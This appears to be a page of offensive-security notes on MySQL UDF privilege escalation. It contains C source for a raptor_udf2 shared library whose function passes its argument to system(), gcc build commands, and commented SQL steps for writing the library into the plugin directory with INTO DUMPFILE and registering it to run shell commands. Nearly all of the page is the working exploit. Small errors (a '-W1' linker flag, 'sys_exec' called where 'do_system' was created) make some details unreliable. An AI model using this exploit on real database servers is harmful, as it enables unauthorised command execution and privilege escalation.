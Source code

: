 ## UDF Privilege Escalation

```
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
    unsigned int        arg_count;  // number of arguments
    enum Item_result    *arg_type;  // pointer to item_result
    char            **args;     // pointer to arguments
    unsigned long       *lengths;   // length of string args
    char            *maybe_null;    // 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
    char            maybe_null; // 1 if func can return NULL
    unsigned int        decimals;   // for real functions
    unsigned long       max_length; // for string functions
    char            *ptr;       // free ptr for func data
    char            const_item; // 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
    if (args->arg_count != 1)
        return(0);

    system(args->args[0]);

    return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
    return(0);
}
```

```
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Compile the above code into a so library file. Next, please translate the so as a hex string:

```
#!/usr/bin/python
# -*- coding: utf8 -*-

# https://www.exploit-db.com/exploits/1518/

# How to upload UDF DLL into mysql server ?
# show VARIABLES;
# select @@plugin_dir;
# SELECT CHAR (...) INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so'
# SELECT 0xnnnnn INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so'
# drop function if exists do_system
# create function do_system returns integer soname 'lib_mysqludf_sys.so';
# select sys_exec('id');

# How to Compile UDF Dll ?
# gcc -g -c raptor_udf2.c
# gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```